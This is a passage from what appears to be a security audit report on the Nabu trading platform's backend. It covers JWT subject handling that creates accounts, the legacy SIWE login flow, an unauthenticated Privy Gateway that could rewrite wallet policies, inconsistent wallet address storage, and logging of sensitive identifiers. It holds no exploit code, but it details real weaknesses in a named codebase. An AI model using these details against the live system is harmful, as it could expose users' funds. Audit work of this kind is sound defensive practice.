Wait for Privy's `logout()` to finish before clearing the local session and showing the user as signed out, and surface or retry its failure instead of discarding it, so a failed logout cannot leave the Privy session active.


## App-specific token verification allows unexpected sub values leading to accounts being created with arbitrary EVM addresses and Privy user IDs

Despite issuing JWTs across all flows with the Nabu user ID set as the `sub` value, the actual verification routine accepts user IDs, EVM addresses, and Privy user IDs, creating new accounts for the last two cases due to `ResolveOrCreateUserIDByEVMAddress` and `ResolveOrCreateUserIDByPrivyUserID` being used.

### Description

Both sign-in flows set the `sub` claim of the issued session token to the account's Nabu user ID, a value of the form `usr_<hex>` ([fe/backend/internal/httpapi/auth_privy.go#L204-L212](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/auth_privy.go#L204-L212), [fe/backend/internal/httpapi/auth.go#L180-L185](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/auth.go#L180-L185)).

On every authenticated request, `requireAuth` verifies the token and passes its subject to `resolveAuthIdentity`, which tries to parse it as three different identifier types in order ([fe/backend/internal/httpapi/auth_required.go#L55-L91](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/auth_required.go#L55-L91)):

```go
if userID, err := nabutypes.NewUserID(subject); err == nil {
    return s.st.GetUserIdentity(ctx, userID)
}

if evmAddress, err := nabutypes.NewEVMAddress(subject); err == nil {
    userID, resolveErr := s.st.ResolveOrCreateUserIDByEVMAddress(ctx, evmAddress)
    ...
}

privyUserID, err := nabutypes.NewPrivyUserID(subject)
...
userID, resolveErr := s.st.ResolveOrCreateUserIDByPrivyUserID(ctx, privyUserID, nil)
```

Only the first type, the Nabu user ID, matches what the app actually issues. The second accepts any `0x` hex address, and the third accepts any non-empty string ([application/nabutypes/privy_user_id.go#L24-L31](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/nabutypes/privy_user_id.go#L24-L31)), so the third matches every subject that is not a valid user ID or address. Both accept values the app never places in a token.

The three branches do not have the same effect. When the subject is a Nabu user ID, the handler only looks up an account that already exists. The other two create one when nothing is linked to the supplied value yet, through `ResolveOrCreateUserIDByEVMAddress` ([fe/backend/internal/store/user_identities.go#L80](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/user_identities.go#L80)) and `ResolveOrCreateUserIDByPrivyUserID` ([fe/backend/internal/store/user_identities.go#L113](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/user_identities.go#L113)). A token whose subject is an arbitrary address or string therefore registers a new account tied to that exact value.

Reaching either fallback requires a token that passes verification. `authenticate` checks the HS256 signature against `cfg.JWTSecret` and requires the token's `jti` to match an active session ([fe/backend/internal/httpapi/auth_required.go#L109-L117](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/auth_required.go#L109-L117)). That session lookup matches only on `jwt_id` and never compares the session to the subject, so any active `jti` works with any subject. Producing such a token depends on knowing the signing secret.

### Impact

The fallback branches are unreachable in normal operation, because every token the app issues carries a `usr_` subject that matches the first type. They open up only if `cfg.JWTSecret` leaks. An attacker who holds the secret can already forge a token for any existing account, so the added capability is narrow. By setting the subject to an EVM address or an arbitrary Privy DID, the attacker makes the backend create a new account bound to an identifier the app would never assign on its own, such as a Privy DID that belongs to no real Privy user. This leaves identity records with no Privy or wallet identity behind them.

It grants no access beyond what the leaked secret already allows. We therefore set the severity to **Informational**.

### Recommendations

Considering the app does not produce such subject values which are accepted by the authentication middleware, the middleware should just stop accepting them altogether, allowing only the `usr_{id}` sub values.


# Discussions

## Legacy SIWE authentication flow

As we covered in the findings [06-MEDIUM-privy-auth-siwe-bypass](#privy-based-accounts-can-be-signed-into-using-legacy-siwe-authentication-bypassing-privy-user-blocks-and-google-auth), [14-LOW-siwe-invite-exhaustion](#multi-use-invite-codes-can-be-exhausted-through-legacy-siwe-accounts-with-no-resistance-like-in-the-case-of-privy-accounts), and [21-INFO-siwe-lack-of-identity](#legacy-siwe-accounts-maintain-no-identity-guarantee-which-the-new-privy-authentication-flow-enforces), the SIWE authentication flow is available through the Nabu API, despite having no support on the UI, and leads to various issues unique to this flow. During our assessment, we assumed that the SIWE authentication flow is a legacy mechanism that has been entirely erased from the UI, and is left implemented in the backend possibly due to lack of clear signals for removal. Accounts created through the SIWE authentication flow have limited capabilities: pretty much the entire trading/strategy functionality set is not available to them, as it relies on the trading wallet being linked to the account, which happens through the `/v1/trading-wallet/link` endpoint that rejects accounts with no Privy backing. This gives us reason to believe that the SIWE authentication flow is not something the Nabu platform aims to support, at least in the short term.

Besides the reported findings, other potential security issues triggerable only through SIWE accounts lie dormant right now for other reasons. For example, the `/v1/strategies/submit` endpoint currently allows submitting strategies with a fallback to a request-provided wallet addrss when no Privy wallet is registered for the caller's account, which is exactly what happens for any SIWE caller. This issue itself does not cause any security issues, however, which is why we left it out of our findings.

Considering the findings we discovered which impact functionality outside the scope of the SIWE auth flow itself, and the implementation overhead of supporting multiple authentication flows and kinds of accounts which can have varying data linked to them (such as the Privy wallet ID), we find it reasonable to recommend all functionality in the API related to SIWE to be removed. Since users potentially having SIWE-driven accounts already have no way to sign into them through the frontend, they will not be affected.

If Nabu decides to implement SIWE or another authentication flow as an additional source of users, care should be taken to properly assess the capability differences of these accounts in order to avoid issues such as those described by us. Right now, as long as Privy remains the main account source, no alternative authentication flow can be set up without exposing a bypass of at least some of Privy's features, such as account and session management. It makes sense to utilize the sign in methods provided by Privy to integrate other account sources, such as other social logins, or even SIWE through Privy.

## Privy Gateway security boundary

Nabu currently implements a separate `privy_gateway` ([privy_gateway/src/main.rs](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/privy_gateway/src/main.rs)) component through which most backend interactions with Privy take place (frontend interacts with Privy directly, authorized by the rights of the authenticated user). Judging the component's intended purpose architecturally, it is supposed to act as a security boundary for the Privy app secret and the Nabu wallet signer private key. In reality, however, this does not seem to be enforced through the deployment, if [docker-compose-prod.yaml](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/docker-compose-prod.yaml) can be reasoned about as the production deployment orchestration.

`PRIVY_APP_SECRET` and `NABU_AUTH_PRIVATE_KEY` are loaded across most backend services through a common `fe/backend/.env` dotenv file, `PRIVY_APP_SECRET` being the Nabu Privy app secret, and `NABU_AUTH_PRIVATE_KEY` being the private key of the Privy signer which all Nabu users delegate trading operations to. `NABU_AUTH_PRIVATE_KEY` is, in fact, used only by the Privy Gateway, but `PRIVY_APP_SECRET` is additionally used by the Nabu backend itself to fetch the Privy user directly in `/v1/auth/privy`.

Besides this broken security boundary, the Privy Gateway is also entirely unauthenticated, allowing attacks with lesser impact than full component takeover, such as SSRF, to issue malicious requests to the gateway without the knowledge of some secret, or other authentication such as mTLS. This further degrades the intended security of this component: if an attacker is somehow able to issue requests to the gateway, the entire security model collapses - the victim's Privy policy can be rewritten through the `/internal/privy/policies/:policy_id` endpoint, permitting arbitrary transactions with the user's funds. This is in contrast to the appchain RPCs which explicitly require a signature from the attestor held by the Nabu backend.

We recommend reconsidering the security intentions of the Privy Gateway component. If it is needed as a clear boundary for highly privileged Privy secrets, then it must be the only component deployed with access to those secrets, and other components must communicate with it via authorized methods. We also suggest reconsidering the endpoints the gateway exposes to limit potential impact from an attacker who is somehow able to achieve execution in a component and gain authorized access to the Privy Gateway through the API: right now the gateway, as we brought up for an example, allows overwriting policies, even though it could potentially manage them entirely in its own boundary. On a separate side note: the Privy Gateway is unnecessarily implemented in Rust, complicating the implementation compared to the established Go codebase. Unless used for some meaningful reason, the entire component can be reimplemented with Go using the Privy SDK [github.com/privy-io/go-sdk](https://github.com/privy-io/go-sdk), which similarly supports wallet signatures.

## Account wallet address consistency

Application-level user accounts store wallet addresses across three different datasets with varying guarantees and invariants: `evm_address` of the `user_identities` table, `primary_address` of the `privy_users` table, and `privy_address` of the `privy_wallets` table. All of these addresses are written from different places with different sources and validation logic. Besides this, the `/v1/trading-wallet/link` endpoint allows reaching a state where absolutely all three addresses for a single Nabu account are different, due to the different approaches it takes to handling already existing values. `/v1/trading-wallet/link` takes two separate addresses: `privy_address` and `primary_address`, which can differ depending on the user's linked wallets, which they're able to control directly through their Privy account without requiring any authorization from the backend. The _first_ call to the endpoint sets `user_identities.evm_address` to the `primary_address` value, `privy_users.primary_address` is overwritten by the new `primary_address` value on _each_ call, and `privy_wallets.privy_address` gets set to the `privy_address` value on the _first_ call. 

For a legitimate user, this cannot happen in the current state of the application, as only one wallet is ever created for their Privy account. A malicious user, however, can end up setting three distinct values across these tables for their account. We have not observed any impact on other users stemming from this issue right now. However, since the application expects these addresses to be equal, it's better to use a single source for them, and store them in one place, with uniqueness guaranteed for each address globally or per-chain, for example, the `user_identities` table. Other state depending on the wallet address of the user should reference this value instead of producing its own. This will ensure that a user's trading wallet address is consistent and unique across the board, and completely removes the possibility of any issues arising due to the mismatch or even the conflict of different addresses across multiple users.

## Audit trail logging

Nabu runs two log streams, the Go backend through zerolog and the Rust privy_gateway through `tracing`, and both write sensitive correlation identifiers in plaintext. The backend logs the raw `wallet_id` and `policy_id` ([fe/backend/internal/httpapi/trading_wallet.go#L745-L746](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L745-L746)), the raw `cex_handle_id` ([fe/backend/internal/httpapi/portfolio.go#L293](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/portfolio.go#L293)), the `signer_id` ([fe/backend/internal/httpapi/trading_wallet.go#L1141](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L1141)), and the `tx_hash` of every deploy across its diagnostic lines ([fe/backend/internal/httpapi/strategies.go#L912-L1027](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/strategies.go#L912-L1027)). The gateway goes further and logs whole request and response bodies on some paths, including the unsigned `wallet_rpc` transaction about to be sent to Privy for signing ([privy_gateway/src/main.rs#L1207](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/privy_gateway/src/main.rs#L1207)) and 256 to 512 byte slices of upstream Privy responses on error paths ([privy_gateway/src/main.rs#L591](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/privy_gateway/src/main.rs#L591)). Truncating those bodies does not help much, since a couple hundred bytes of a transaction body still carries the `from`, `to`, `value`, and selector, and a Privy error slice still fits a full signer id.

Taken together, these fields reconstruct in the log store the join between the backend's `user_id` and the user's on-chain wallet plane, the mapping that Privy's per-user API scoping is meant to keep hidden from the application. A breach of the log store therefore leaks that mapping for the entire user base in a single query, rather than exposing one user at a time. The `cex_handle_id` logging also compounds the handle-id finding ([09-LOW-handle-id-order-idor](#any-strategy-can-place-orders-on-any-users-cex-account-via-a-known-handle_id)): a leaked `handle_id` is the one missing piece an attacker needs to drive their own strategy against a victim's CEX account, and logging it broadly lowers that bar.

We recommend masking these correlation identifiers rather than dropping them, since their value is the ability to correlate log lines, not the raw identifier itself. A short hash prefix such as `sha256(value)[:8]` keeps that correlation while leaving the underlying identifier out of the store, and the gateway's body logging should be reduced to a body length and an error class. A `go vet` or golangci-lint rule that fails the build when these fields are logged raw would keep the masking from regressing. Separately, the security-relevant events worth a true audit trail, such as admin grants and revocations, policy updates, invite redemptions, strategy deploys, and delegation changes, mostly already live on the appchain or in Privy's own audit. A dedicated append-only sink, with restricted read access, a fixed schema, and long retention, therefore only needs to cover the events that live nowhere else, primarily the admin and invite tables.
